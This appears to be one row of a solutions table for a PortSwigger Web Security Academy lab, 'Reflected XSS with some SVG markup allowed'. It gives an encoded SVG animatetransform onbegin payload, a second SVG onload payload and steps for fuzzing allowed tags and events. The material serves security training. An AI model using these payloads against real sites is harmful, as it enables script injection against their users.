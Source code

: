 |19    |Reflected XSS with some SVG markup allowed                                                                               |https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E  <svG/x=">"/oNloaD=alert("XSS")//                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |<§§>, use XSS cheat sheet to load tags as payloads. <svg> <animatetransform> <title>and <image>received a 200 response. <svg><animatetransform%20§§=1> XSS cheat sheet to copy events to clipboard. onbegin is allowed, so you can craft the payload. "><svg><animatetransform onbegin=alert(1)>. Remember to URL encode special characters.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Practitioner, Reflected XSS                 |